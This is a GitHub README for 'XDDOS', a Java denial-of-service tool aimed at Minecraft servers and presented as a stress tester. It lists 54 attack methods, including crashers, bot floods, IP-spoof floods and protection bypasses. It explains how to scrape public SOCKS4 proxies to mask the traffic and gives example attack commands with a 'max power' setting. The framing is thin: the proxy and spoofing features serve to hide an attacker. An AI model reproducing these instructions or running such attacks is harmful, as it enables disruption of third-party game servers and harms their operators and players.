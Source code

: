 ![alt text](https://cdn.discordapp.com/attachments/949290845222350928/964583278789148763/cover.png)
#                  TEAMXD Discord - https://discord.gg/4DQnbEnv87

## XDDOS is a tool to stress test your minecraft server.

## Features avilable

XDDOS has the following features:

- `54` different attack methods
- `proxy scraper` (just put the links to scrape proxy from in urls.txt)
- `user friendly CLI` dont worry about hard to remeber startup commands
- also supports startup commands 
- auto ip resolver you can use domain names or ip addresses
- chat spam bots
- beautiful cli
- now supports both colored and plain mode just use -noansi as argument
- inbuilt jar updater

## How to use XDDOS

### Things to know

- CPS is Connection per second. Use -1 as cps to use max power
- Jar is compiled used java 8 so use java 8 or above to run
- To get protocols go [here](https://wiki.vg/Protocol_version_numbers) and see Version number
 example for version 1.8.9 protocol is 47

### Steps to take to run XDDOS:
 1) Download the jar -> [Download](https://github.com/AnAverageBeing/XDDOS/raw/master/XDDOS.jar)
 2) make a folder to store XDDOS and files related to it and move jar into that folder
 3) now make a file called urls.txt in that folder
 4) put the links to scrape socks4 proxies from in that file
   ### Some links to scrape socks4 proxies from
  ```
  https://raw.githubusercontent.com/TheSpeedX/PROXY-List/master/socks4.txt
  https://raw.githubusercontent.com/ShiftyTR/Proxy-List/master/socks4.txt
  https://raw.githubusercontent.com/monosans/proxy-list/main/proxies/socks4.txt
  https://raw.githubusercontent.com/jetkai/proxy-list/main/online-proxies/txt/proxies-socks4.txt
  ```
  
 5) now open ur terminal and move to that directory 
 6) now use the command to run jar commands can be found below

### Update Command:
```
java -jar XDDOS.jar -update
```

### Startup Command: 

- For user friendly CLI/auto mode with colors:
```
java -jar XDDOS.jar
```
- For user friendly CLI/auto mode without colors:
```
java -jar XDDOS.jar -noansi
```

- for manual startup with colors:
```
java -jar XDDOS.jar [ip] [protocol] [method] [time] [cps] [y/n]
```
- for manual startup without colors:
```
java -jar XDDOS.jar [ip] [protocol] [method] [time] [cps] [y/n] -noansi
```

#### NOTE! :-
**y/n** is optional y if you want to scrape proxy from links in urls.txt and **n** to use your own proxy) 
#### IMPORTANT :-
if u are using **n** it will use proxies.txt as proxy file

## Example Attack Commands  

- To run botjoiner for 10 seconds with 1000 cps and use auto proxy generator:
```
java -jar XDDOS.jar localhost:25565 47 botjoiner 10 1000 y
```

- To run botjoiner for 10 seconds with 1000 cps and use your own proxy:
```
java -jar XDDOS.jar localhost:25565 47 botjoiner 10 1000 n
```

- To run botjoiner for 10 seconds with MAX POWER or CPS and use auto proxy generator:
```
java -jar XDDOS.jar localhost:25565 47 botjoiner 10 -1 y
```

- To use user friendly CLI:
```
java -jar XDDOS.jar
```

## Methods avilable

- BigHandshake
- BigPacket
- BotJoiner
- BotRiad
- BungeeDowner
- ChatSpam
- ColorCrasher
- CpuDowner
- DoubleJoin
- EmptyNames
- EmptyPacket
- ExtremeJoin
- ExtremeKiller
- Handshake
- InstantDowner
- InvalidData
- InvalidNames
- InvalidSpoof
- IpSpooffFlood
- Join
- LegacyPing
- LegitnameJoin
- LocalHost
- LongHost
- LongNames
- Memory
- MOTD
- nabCry
- NettyDowner
- Network
- NullPing 2.0//newnullping
- NullPing
- Ping
- PingJoin
- Query
- Queue
- QuitExceptions
- RAM
- RandomExceptions
- RandomPacket
- ServerFucker//this is sf
- Slapper
- SmartBot
- Spoof
- TCPBypass
- TCPHit
- UltimateKiller
- UltimateSmasher
- UnexpectedPacket
- uuidCrash
- WaterfallBypass
- XDJoin
- xDSpam
- YooniksCry

### VirusTotal Scan
https://www.virustotal.com/gui/file/fa3c335a366da31b825b06281dbad74bd590bd12acb53d6dc644c699d591cf2b
